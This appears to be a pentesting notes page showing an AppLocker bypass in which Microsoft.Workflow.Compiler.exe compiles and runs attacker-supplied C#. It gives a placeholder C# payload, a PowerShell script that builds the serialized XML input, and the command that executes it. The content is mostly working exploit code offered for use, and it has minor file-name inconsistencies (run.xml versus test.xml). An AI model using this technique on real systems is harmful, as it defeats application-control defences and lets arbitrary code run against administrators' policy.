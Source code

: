 ```yaml
---
layout:     post
author:     0x5c4r3
type: docs
permalink: Applocker_Bypass_CSharp
---
```



<span style="font-size: 35px; color:red"><b>Applocker Bypass with CSharp</b></span>

Payload to copy to test.txt (to use in the exploit below):
```cs
using System;
using System.Workflow.ComponentModel;
public class Run : Activity{
    public Run() {
        Console.WriteLine("I executed!");
    }
}
```

Exploit:
```powershell
$workflowexe = "C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Microsoft.Workflow.Compiler.exe"
$workflowasm = [Reflection.Assembly]::LoadFrom($workflowexe)
$SerializeInputToWrapper = [Microsoft.Workflow.Compiler.CompilerWrapper].GetMethod('SerializeInputToWrapper', [Reflection.BindingFlags] 'NonPublic, Static')
Add-Type -Path 'C:\Windows\Microsoft.NET\Framework64\v4.0.30319\System.Workflow.ComponentModel.dll'
$compilerparam = New-Object -TypeName Workflow.ComponentModel.Compiler.WorkflowCompilerParameters
$compilerparam.GenerateInMemory = $True
$pathvar = "test.txt" 'input
$output = "C:\Tools\run.xml"
$tmp = $SerializeInputToWrapper.Invoke($null, @([Workflow.ComponentModel.Compiler.WorkflowCompilerParameters] $compilerparam, [String[]] @(,$pathvar)))
Move-Item $tmp $output
```

You can dump the contents of the generated file to view the serialized content: <span style="color:red">type C:\Tools\test.xml</span>

To run the code, run <span style="color:red">C:\Windows\Microsoft.Net\Framework64\v4.0.30319\Microsoft.Workflow.Compiler.exe run.xml results.xml</span>

